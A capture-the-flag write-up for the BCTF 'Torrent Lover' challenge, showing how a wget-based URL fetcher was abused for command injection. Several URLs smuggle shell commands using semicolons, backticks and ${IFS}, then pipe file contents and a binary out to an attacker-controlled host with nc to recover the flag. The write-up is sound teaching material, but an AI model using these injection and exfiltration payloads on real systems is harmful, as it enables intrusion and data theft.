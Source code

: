 Torrent Lover
-------------

In this problem, we were given a website with a form and the instructions: "input something(torrent)'s URL u wanna know here". If you entered a link with a torrent file, the website would direct you to a page where you could view metadata about the torrent. The server performed some kind of validation on the url you gave it. Entering a url with a space, or aurl that didn't end in ".torrent" would give you an error message.

### Unsafe wget

First, I submitted a url that pointed to a torrentfile on a server I controlled. Looking at the user-agent in the request made, it was clear that the server was using the `wget` command to fetch my torrent file. If the server was in fact using wget to fetch the urls we provided, we could likely get it to execute arbitary commands. As a simple POC, I gave it this url:
```
http://<myserver>/`uname`.torrent
```
This caused the server to make a request to my server for `/Linux.torrent`.

We could also get the server to run other arbitrary commands by append a semicolon, followed by the command we wanted to run.

### Shellcode without spaces

The validation on the server caused our requests to fail if the url we supplied contained a space. No worries though, we can simply use the internal file separator to get around this restriction.

Giving it the url
```
http://<myserver>/somefile;echo${IFS}test|nc${IFS}<myserver>${IFS}9999;.torrent
```

And listening on my server:
```
nc -l 9999
```

Caused the game server to send me the word "test". This means we can run arbitrary commands on the server, and see the output.

### Find the flag

First things first, I used the `find` command to file the flag on the server
```
http://<myserver>/somefile;find${IFS}/${IFS}-name${IFS}*flag*|nc${IFS}<myserver>${IFS}9999;.torrent
```

This revealed that there were `flag` and `use_me_to_read_flag` files in /var/ww/html/flag

Running the binary by submitting this url
```
http://<myserver>;/var/www/flag/use_me_to_read_flag${IFS}/var/www/flag/flag|nc${IFS}<myserver>${IFS}9999;.torrent
```
I see a message that says: `You do not have permission to access /var/www/flag/flag` Using ls -al to inspect the permissions, it appears that
the binary does have the proper permissions to read the flag. We probably want to grab the binary and inspect it locally.

### A small bit of reverse engineering
Command to grab the binary:

```
http://<myserver>/;cat${IFS}/var/www/flag/use_me_to_read_flag|nc${IFS}<myserver>${IFS}9999;.torrent
```

And on my server:
```
nc -l 9999 > out.bin
```

Binary get!

Using `file`, I determine that it is an ELF. I run `ltrace` on it.

```
echo "test" > flag
ltrace out.bin flag
```

From the output, I can see that the binary does a `strstr` so see if the argument I provided contains the substring 'flag'.

So we can't directly read the flag, but that's no big deal. We can just make a symlink to the flag.

```
ln -s flag different_name
./out.bin different_name
```
It works! Now let's do that on the server. I submit the following two urls:

```
http://<myserver>/;/ln${IFS}-s${IFS}/var/www/flag/flag${IFS}/tmp/asdf;.torrent
```
and
```
http://<myserver>/;/var/www/flag/use_me_to_read_flag${IFS}/tmp/asdf|nc${IFS}<myserver>${IFS}9999;.torrent
```

And the server spits out the flag:
```
BCTF{Do_not_play_dota2_or_you_will_be_stupid_like_me233}
```


